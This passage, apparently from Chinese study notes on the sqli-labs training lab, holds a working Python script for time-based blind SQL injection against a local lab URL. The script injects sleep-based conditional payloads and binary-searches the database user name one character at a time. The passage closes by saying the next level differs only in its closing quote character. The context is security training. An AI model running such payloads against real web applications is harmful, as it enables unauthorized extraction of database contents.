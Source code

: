 脚本执行

```python
import requests
import time

url = "http://sqli-labs-master:8848/Less-9/"
result = ""
for i in range(1,100):
    min_value = 33
    max_value = 130
    mid = (min_value+max_value)//2 #求取中值
    while(min_value<max_value):
        # payload ="?id=1' and (ascii(substr(database(),{0},1))>{1}) --+".format(i,mid)
        payload = "?id=1' and if(ascii(substr(user(),{0},1))>{1}, sleep(2),0) --+".format(i, mid)
        get_url = url + payload
        time1 = time.time()
        html = requests.get(get_url)
        time2 = time.time()
        get_url = ''
        #判断中间数值的位置，中间数在目标之上，最大区间点替换为中间数，中间数在目标数目之下，最小区间点替换为中间数
        time3 = time2 - time1
        if time3 > 2:
            min_value = mid+1
        else:
            max_value = mid
        # --- 每一次循环都会刷新这里的中间数值
        mid = (min_value+max_value)//2
    #找不到目标元素时停止(停止符号可能得微调)
    if(chr(mid)=="!"):
        break
    #将ACLL码转换为字符，叠加返回结果result
    result += chr(mid)
    print(result)
print("your result is:",result)
```

### 第十关

跟第九关一样，唯一的差别就是闭合符不同

---
先到这里，sql注入的基础内容算是学完了